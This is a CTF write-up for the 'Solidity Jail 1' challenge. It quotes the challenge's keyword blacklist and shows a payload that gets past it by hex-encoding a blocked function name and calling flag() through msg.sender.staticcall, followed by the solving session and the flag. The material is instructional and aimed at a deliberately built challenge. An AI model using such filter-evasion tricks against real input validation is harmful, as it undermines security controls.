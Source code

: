 # Solidity Jail 1 write-up (WWCTF 2025)

**Name:** Solidity Jail 1

**Description:**
> Bash Jail? Boring. Pyjail? Too Common.
> 
> Introducing for the first time, Solidity Jail!\
> Make a contract to read the flag!

**Type:** Blockchain

**Difficulty:** Medium?

**Points:** 395

**Author:** zeptoide

**Files:** [Jail.sol](/Solidity%20Jail%201/Jail.sol) [jailTalk.py](/Solidity%20Jail%201/jailTalk.py)

## Analysis

It is the last hour of the CTF. The scoreboard is frozen, and I'm trying to squeeze out every last point where I can.

I lay my eye on "Solidity Jail 1". Its points drop slightly, just like when I first found "bf jail". After all, it presents itself as an entry-level challenge on Solidity (which is new to me).

"Maybe I can just learn it on the fly." I thought to myself.

With that thought in mind, I start dissecting [jailTalk.py](/Solidity%20Jail%201/jailTalk.py). The core logic quickly shows itself:
```python
print("Enter the body of main() (end with three blank lines):")
lines = []
empty_count = 0
while True:
    try:
        line = input()
    except EOFError:
        break
    if line.strip() == "":
        empty_count += 1
    else:
        empty_count = 0
    if empty_count >= 3:
        lines = lines[:-2]
        break
    lines.append(line)

body = "\n".join(f"        {l}" for l in lines)

if not all(ch in string.printable for ch in body):
    raise ValueError("Non-printable characters detected in contract.")

blacklist = [
    "flag",
    "transfer",
    "address",
    "this",
    "block",
    "tx",
    "origin",
    "gas",
    "fallback",
    "receive",
    "selfdestruct",
    "suicide"
]
if any(banned in body for banned in blacklist):
    raise ValueError(f"Blacklisted string found in contract.")


source = f"""// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Solution {{
    function main() external returns (string memory) {{
{body}
    }}
}}
"""
```
So I need to craft a Solidity payload that can pass the blacklist. Let's get googling and learning...

Headache. Only headache. There are simply too many basics to get down; one hour is clearly not enough. Also, none of the example has a `main()` function! There's nothing I can quickly grab and get it to work.

In despair, I finally shouted:
> _Help me, GPTTTTTT!!_

I feed [Jail.sol](/Solidity%20Jail%201/Jail.sol) to GPT and ask for its opinion. It quickly spits out a "working" example:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract GetFlag {
    function main() public returns (string memory) {
        // Address of BytecodeRunner is msg.sender (because it called us)
        address runner = msg.sender;

        // Function selector for `flag()`
        bytes memory callData = abi.encodeWithSignature("flag()");

        (bool success, bytes memory data) = runner.staticcall(callData);
        require(success, "Could not read flag");

        return abi.decode(data, (string));
    }
}
```
(Don't mind the mismatched contract name. I didn't feed it [jailTalk.py](/Solidity%20Jail%201/jailTalk.py).)

Feeding the blacklist word makes GPT overcomplicate things, so I think it's time for manual cleanup.

The code is actually very manageable: the payload is just 5 lines after cleaning up all comments and wrappers:
```solidity
address runner = msg.sender;
bytes memory callData = abi.encodeWithSignature("flag()");
(bool success, bytes memory data) = runner.staticcall(callData);
require(success, "Could not read flag");
return abi.decode(data, (string));
```
Some simple changes can be made now. The keyword `address` is not allowed, but we recognize that `runner` is just a "renaming" of `msg.sender`. Coder's instinct tells us maybe we can just merge them:
```solidity
bytes memory callData = abi.encodeWithSignature("flag()");
(bool success, bytes memory data) = msg.sender.staticcall(callData);
require(success, "Could not read flag");
return abi.decode(data, (string));
```
The only blacklisted word remaining is `flag`. Fixing the one on line 3 is easy, since it is just a message:
```solidity
bytes memory callData = abi.encodeWithSignature("flag()");
(bool success, bytes memory data) = msg.sender.staticcall(callData);
require(success, "Sadge");
return abi.decode(data, (string));
```
The one in the first line is a bit tough, since it is the exact thing we want to execute. But that turns out to be also easy: I quickly googled "solidity hex to string", and AI Overview said that hex to string conversion in Solidity is implicit, so:

## Solution

Final payload:
```solidity
bytes memory callData = abi.encodeWithSignature(hex"666c61672829");
(bool success, bytes memory data) = msg.sender.staticcall(callData);
require(success, "Sadge");
return abi.decode(data, (string));
```
```
$ nc chal.wwctf.com 9499
Enter the body of main() (end with three blank lines):
bytes memory callData = abi.encodeWithSignature(hex"666c61672829");
(bool success, bytes memory data) = msg.sender.staticcall(callData);
require(success, "Sadge");
return abi.decode(data, (string));



Final contract with inserted main() body:
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;
contract Solution {
    function main() external returns (string memory) {
        bytes memory callData = abi.encodeWithSignature(hex"666c61672829");
        (bool success, bytes memory data) = msg.sender.staticcall(callData);
        require(success, "Sadge");
        return abi.decode(data, (string));
    }
}
[True, b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00(wwf{y0u_4r3_7h3_7ru3_m4573r_0f_s0l1d17y}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00']
```

**Flag:** `wwf{y0u_4r3_7h3_7ru3_m4573r_0f_s0l1d17y}`

And that's how I clutched the last solve of our team, half an hour before the CTF ended.

## Afterword

This challenge is manageable by AI, so I stole the solve from AI in some sense.

"Solidity Jail 2" is the real challenge. The blacklist is more comprehensive. In particular, both AI and I could not get around using the word `call`, so solving this challenge requires some serious Solidity knowledge. I truly admire the teams that solved it. Please have a look at their write-ups on "Solidity Jail 2".
